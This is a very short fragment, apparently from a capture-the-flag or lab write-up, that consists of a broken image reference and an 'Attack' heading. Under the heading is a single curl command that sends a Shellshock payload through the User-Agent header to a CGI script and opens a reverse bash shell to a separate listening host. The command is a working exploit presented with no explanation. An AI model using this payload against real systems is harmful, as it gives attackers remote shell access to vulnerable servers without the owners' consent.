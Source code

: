 ## Attack
`curl -A "() { :;}; /bin/bash -i >& /dev/tcp/10.10.14.23/1234 0>&1" http://10.10.10.56/cgi-bin/user.sh`
